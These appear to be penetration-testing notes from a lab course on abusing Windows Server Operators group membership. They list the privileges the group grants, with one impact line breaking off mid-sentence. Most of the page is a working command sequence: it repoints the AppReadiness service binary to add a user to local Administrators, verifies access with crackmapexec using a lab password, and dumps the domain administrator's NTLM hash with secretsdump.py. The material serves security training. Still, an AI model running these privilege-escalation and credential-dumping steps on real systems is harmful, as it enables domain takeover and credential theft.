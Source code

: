 ### Server Operators
The [Server Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators) group allows members to administer Windows servers without needing assignment of Domain Admin privileges. It is a very highly privileged group that can log in locally to servers, including Domain Controllers.
## IMPACT
-  ability to control local services running as LocalSystem ( to privesc to root).
- add any user to local administrators group
- `SeBackupPrivilege` and `SeRestorePrivilege`
- dump NTLM hashes for local accounts via 
---
## exploitation examples:
1.  adding any user to administrators

` Modifying the Service Binary Path to cmd and adding our user to administrators via net`
```cmd-session
sc qc AppReadiness
```

`check server operators permissions on appreadiness service`
```cmd-session
c:\Tools\PsService.exe security AppReadiness
```

Let's change the binary path to execute a command which adds our current user to the default local administrators group.

```cmd-session
C:\htb> sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"

[SC] ChangeServiceConfig SUCCESS
```

```cmd-session
sc start AppReadiness
```

```cmd-session
net localgroup Administrators
```

`confirm local admin access`
```shell-session
crackmapexec smb 10.129.43.9 -u server_adm -p 'HTB_@cademy_stdnt!'
```

If you have **NT SYSTEM or Local Administrator** privileges on the **DC**, you can dump credentials from **LSASS** memory.

`get NTLM Hashes`
```shell-session
 secretsdump.py server_adm@10.129.43.9 -just-dc-user administrator
```
